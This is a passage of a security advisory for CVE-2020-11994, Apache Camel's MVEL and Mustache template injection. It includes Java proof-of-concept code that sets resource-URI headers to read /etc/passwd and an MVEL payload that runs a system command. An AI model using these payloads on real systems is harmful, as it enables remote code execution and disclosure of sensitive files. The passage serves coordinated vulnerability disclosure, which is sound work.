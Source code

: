 <p>As we saw with FreeMarker and Velocity, by providing a <code class="language-plaintext highlighter-rouge">CamelMvelResourceUri</code> header, an attacker is able to provide a URI to retrieve the template contents from. They can use it to provide arbitrary templates (RCE) or to disclose arbitrary file system resources. E.g:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>System.out.println("Attacking MVEL endpoint");
template.convertAndSend("mvel", "FOO", new MessagePostProcessor() {
    public Message postProcessMessage(Message message) throws JMSException {
        String payload = "MVEL @{java.lang.Runtime.getRuntime().exec('id')}";
        message.setStringProperty("CamelMvelResourceUri", "file:///etc/passwd");
        return message;
    }
});
</code></pre></div></div>

<h4 id="impact-2">Impact</h4>

<p>This issue leads to Remote Code Execution and Arbitrary File Disclosure.</p>

<h3 id="issue-4-arbitrary-file-disclosure-on-camel-mustache-component-ghsl-2020-089">Issue 4: Arbitrary File Disclosure on <code class="language-plaintext highlighter-rouge">camel-mustache</code> component (GHSL-2020-089).</h3>

<p>To our knowledge, it is not possible to run arbitrary commands by controlling a Java Mustache template, but it is still possible for an attacker to provide a <code class="language-plaintext highlighter-rouge">MustacheResourceUri</code> header in order to replace the Mustache header with an attacker-controlled one. This will enable an attacker to disclose arbitrary file system resources. E.g:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>System.out.println("Attacking Mustache endpoint");
template.convertAndSend("mustache", "FOO", new MessagePostProcessor() {
    public Message postProcessMessage(Message message) throws JMSException {
        message.setStringProperty("MustacheResourceUri", "file:///etc/passwd");
        return message;
    }
});
</code></pre></div></div>

<h4 id="impact-3">Impact</h4>

<p>This issue leads to Arbitrary File Disclosure.</p>

<h2 id="cve">CVE</h2>
<ul>
  <li>CVE-2020-11994 - Server-Side Template Injection and arbitrary file disclosure on Camel templating components</li>
</ul>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>04/29/2020: Report send to Apache Security</li>
  <li>05/06/2020: Apache shares fix commit for evaluation</li>
</ul>
